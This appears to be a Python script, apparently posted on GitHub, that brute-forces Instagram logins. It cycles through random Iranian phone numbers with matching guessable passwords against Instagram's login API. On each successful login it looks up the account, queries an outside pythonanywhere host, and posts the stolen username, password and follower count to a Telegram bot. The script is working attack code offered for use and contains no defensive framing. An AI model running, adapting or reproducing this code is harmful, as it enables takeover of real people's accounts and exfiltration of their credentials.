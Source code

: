 import webbrowser
import os,sys,subprocess
        
subprocess.getoutput("pip install requests")
import requests,sys,os,time


Z =  '\033[1;31m'  #احمر
X =  '\033[1;33m' #اصفر
BRed="\033[1;31m" # Red
BGreen="\033[1;32m" # Green
BYellow="\033[1;33m" # Yellow
BBlue="\033[1;34m" # Blue
BPurple="\033[1;35m" # Purple
BCyan="\033[1;36m" # Cyan
BWhite="\033[1;37m" # White
Z = '\033[1;31m' #احمر
A = '\033[1;33m' #اصفر
Z1 = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
X = '\033[2;34m'#ازرق
C = '\033[2;35m' #وردي
S = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح
'\033[1;34m'
'\033[1;34m'


try:
    import os
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
except ImportError:
    os.system('pip install time')
    os.system('pip install webbrowser ')
    os.system('pip install random')
    os.system('pip install requests')
    os.system('pip install user_agent')
    os.system('pip install json')
    os.system('pip install secrets')
    os.system('pip install sys')
    os.system('clear')
    from time import sleep
    import time, webbrowser, random, requests
    from uuid import uuid4
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
else:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
    os.system('clear')
    aa = 0
    zz = 0
   


    def a(z):
        for e in z:
            sys.stdout.write(e)
            sys.stdout.flush()
            sleep(0.1)
            
logo ='''
 
██░▀██████████████▀░██
█▌▒▒░████████████░▒▒▐█
█░▒▒▒░██████████░▒▒▒░█
▌░▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒░▐
░▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒░
███▀▀▀██▄▒▒▒▒▒▒▒▄██▀▀▀██
██░░░▐█░▀█▒▒▒▒▒█▀░█▌░░░█
▐▌░░░▐▄▌░▐▌▒▒▒▐▌░▐▄▌░░▐▌
█░░░▐█▌░░▌▒▒▒▐░░▐█▌░░█
▒▀▄▄▄█▄▄▄▌░▄░▐▄▄▄█▄▄▀▒
░░░░░░░░░░└┴┘░░░░░░░░░
██▄▄░░░░░░░░░░░░░░▄▄██
████████▒▒▒▒▒▒████████
█▀░░███▒▒░░▒░░▒▀██████
█▒░███▒▒╖░░╥░░╓▒▐█████
█▒░▀▀▀░░║░░║░░║░░█████
██▄▄▄▄▀▀┴┴╚╧╧╝╧╧╝┴┴███
██████████████████████
𝙷𝙸 𝙸 𝙰𝙼 zaza🖤 ♡︎\@Vc62c
                                   '''   
print(logo)
print(Z+'='*50)


print(Z1+''*50)
ID = input(Z + ' 𝚃𝙳 :') 
tok = input(Z + ' 𝚃𝙾𝙺𝙸𝙽 :' ) 


def code_joo(userQ, password):
        cookie = secrets.token_hex(8) * 2
        head = {'HOST':'www.instagram.com', 
         'KeepAlive':'True', 
         'user-agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36', 
         'Cookie':cookie, 
         'Accept':'*/*', 
         'ContentType':'application/x-www-form-urlencoded', 
         'X-Requested-With':'XMLHttpRequest', 
         'X-IG-App-ID':'936619743392459', 
         'X-Instagram-AJAX':'missing', 
         'X-CSRFToken':'missing', 
         'Accept-Language':'en-US,en;q=0.9'}
        url_id = f"https://www.instagram.com/{userQ}/?__a=1"
        req_id = requests.get(url_id, headers=head).json()
        name = str(req_id['graphql']['user']['full_name'])
        id = str(req_id['graphql']['user']['id'])
        followes = str(req_id['graphql']['user']['edge_followed_by']['count'])
        following = str(req_id['graphql']['user']['edge_follow']['count'])
        re = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}")
        ree = re.json()
        dat = ree['data']

        GHOST = f"🖤✗\حسن علي تاج راسك🖤✗\n━━━━━━━✦✗✦━━━━━━━━\n 🎫𝙴𝙼𝙰𝙸𝙻✗ : {username}\n 😂𝙿𝙰𝚂𝚂𝚆𝙾𝚁𝙳✗ : {password}\n 😂𝚄𝚂𝙴𝚁✗ : {userQ}\n 😂𝙵𝙾𝙻𝙻𝙾𝚆𝙴𝚂✗ :  {followes}\n 😂𝙳𝙰𝚃𝙴✗ : {dat}\n━━━━━━━✦✗✦━━━━━━━━\n "@Vc62c
        
        tlg = f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=\n {GHOST} \n"
        i = requests.post(tlg)


url = 'https://i.instagram.com/api/v1/accounts/login/'
headers = {'User-Agent':'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'*/*',  'Cookie':'missing',  'Accept-Encoding':'gzip, deflate', 
             'Accept-Language':'en-US', 
             'X-IG-Capabilities':'3brTvw==', 
             'X-IG-Connection-Type':'WIFI', 
             'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 
             'Host':'i.instagram.com'}
sleep(1)
sleep(0.1)
user = '0987654321'
while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = '+98939' + us
        password = '0939' + us
        from uuid import uuid4
        uid = str(uuid4())
        data = {'uuid':uid, 
         'password':password, 
         'username':username,
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req = requests.post(url, headers=headers, data=data)
        if 'logged_in_user' in req.json():
            zz += 1
            userQ = req.json()['logged_in_user']['username']
            code_joo(userQ, password)
        elif '"message":"challenge_required","challenge"' in req.json():
            os.system('cls' if os.name == 'nt' else 'clear')
            print(Z1+f"\r                 \n [+] HUNT : {zz} \n [+] GUESS : {aa}\n [+] USER : {username} \n [+] PASSWORD : {password} ",end='')
        else:
            os.system('cls' if os.name == 'nt' else 'clear')
            print('''
                ''' )                          
            print(S +'='*50)
            print(C+f"\r \n {F}[+] 𝙷𝚄𝙽𝚃 : {zz} \n\n {Z}[+] 𝙶𝚄𝙴𝚂𝚂 : {aa}\n\n {S}[+] 𝚄𝚂𝙴𝚁 : {username} \n\n{S} [+] 𝙿𝙰𝚂𝚂𝚆𝙾𝚁𝙳 : {password} ",end='')
            aa += 1
